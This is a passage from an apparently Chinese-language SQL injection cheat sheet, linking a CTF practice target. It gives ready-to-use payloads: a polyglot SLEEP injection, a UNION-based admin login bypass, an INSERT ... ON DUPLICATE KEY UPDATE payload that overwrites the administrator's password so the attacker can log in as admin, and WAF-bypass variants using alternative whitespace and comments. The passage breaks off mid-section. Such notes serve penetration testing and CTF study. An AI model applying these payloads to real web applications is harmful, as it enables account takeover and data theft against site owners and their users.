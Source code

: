 这里有个例子 [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772)

## 多种语言注入

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## 路由注入

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE 关键词被用来告诉MySQL当程序在表中插入已经存在行时需要做啥。我们可以利用这个来修改管理员密码。

```sql
插入使用的payload
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

查询看起来是这个样子：
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

该查询将会插入用户“attacker_dummy@example.com”，并且插入“admin@example.com”，由于“admin@example.com”用户已经存在，所以 ON DUPLICATE KEY UPDATE将会告诉MySQL将此行的“password”更新为"bcrypt_hash_of_qwerty"。

之后我们就可以使用“ admin@example.com”和密码“ qwerty”进行身份验证！
```

## WAF Bypass

没有空间(%20) - 通过使用空白代替

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

没有空格 - 通过注释绕过

```sql
?id=1/*comment*/and/**/1=1/**/--
```

没有空格 - 使用括号绕过
